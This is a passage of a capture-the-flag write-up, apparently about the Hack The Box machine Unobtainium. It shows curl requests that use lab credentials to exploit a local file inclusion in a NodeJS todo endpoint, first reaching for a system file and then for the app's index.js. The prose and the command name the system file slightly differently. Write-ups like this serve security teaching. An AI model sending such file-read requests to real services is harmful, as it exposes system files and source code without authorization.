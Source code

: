 <h2 id="shell-as-root-in-default">Shell as root in default</h2>

<h3 id="lfi-in-todo">LFI in todo</h3>

<p>The last POST above sends <code class="language-plaintext highlighter-rouge">auth</code> and <code class="language-plaintext highlighter-rouge">filename</code> parameters. I want to test if there are limits on the file. I’ll go for <code class="language-plaintext highlighter-rouge">/etc/lab-release</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl http://unobtainium.htb:31337/todo <span class="nt">-H</span> <span class="s2">"Content-Type: application/json"</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "/etc/lsb-release"}'</span>
</code></pre></div></div>

<p>It just hangs and doesn’t return anything. This LFI is limited to the local folder.</p>

<p>I’ll try to find the server-side JS for this app. <code class="language-plaintext highlighter-rouge">nmap</code> showed it was running NodeJS / Express framework. It took a few guesses (<code class="language-plaintext highlighter-rouge">server.js</code>, <code class="language-plaintext highlighter-rouge">main.js</code>, etc), but eventually I got it with <code class="language-plaintext highlighter-rouge">index.js</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl http://unobtainium.htb:31337/todo <span class="nt">-H</span> <span class="s2">"Content-Type: application/json"</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'</span>